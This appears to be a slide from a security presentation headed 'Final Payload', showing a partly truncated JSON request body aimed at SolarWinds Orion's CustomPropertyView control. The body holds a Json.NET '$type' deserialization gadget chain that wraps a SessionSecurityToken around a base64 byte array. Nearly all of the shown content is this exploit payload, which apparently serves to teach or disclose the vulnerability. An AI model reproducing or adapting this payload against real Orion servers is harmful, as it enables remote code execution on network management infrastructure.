

# Final Payload
{
    "Control": "~/Orion/Actions/Controls/CustomPropertyView.ascx",
    "config": {
      "EnviromentType": "Alerting",
      "ViewContextJsonString": "
      {
        \"$type\": \"SolarWinds.Orion.Core.Models.Actions.Contexts.AlertingActionContext, SolarWinds.Orion.Actions.Models\",
[... Truncated ...]
        \"MacroContext\": {
          \"$type\": \"SolarWinds.Orion.Core.Models.MacroParsing.MacroContext, SolarWinds.Orion.Core.Models.V1\",
          \"contexts\": [
            {
              \"$type\": \"SolarWinds.Orion.Core.Models.MacroParsing.SwisEntityContext, SolarWinds.Orion.Core.Models.V1\",
              \"DisplayName\": \"Net object properties\",
              \"EntityType\": null,
              \"EntityUri\": null,
              \"EntityProperties\": {
                \"$type\": \"SolarWinds.InformationService.Contract2.PropertyBag, SolarWinds.InformationService.Contract2\",
                \"1\": {
                  \"$type\": \"System.IdentityModel.Tokens.SessionSecurityToken, System.IdentityModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089\",
                  \"SessionToken\": {
                    \"$type\": \"System.Byte[], mscorlib\",
                    \"$value\": \"QBRTZWN1cml0eUNvbnRleHRUb2tlbkA...\"
[... Truncated ...]"
    }
  }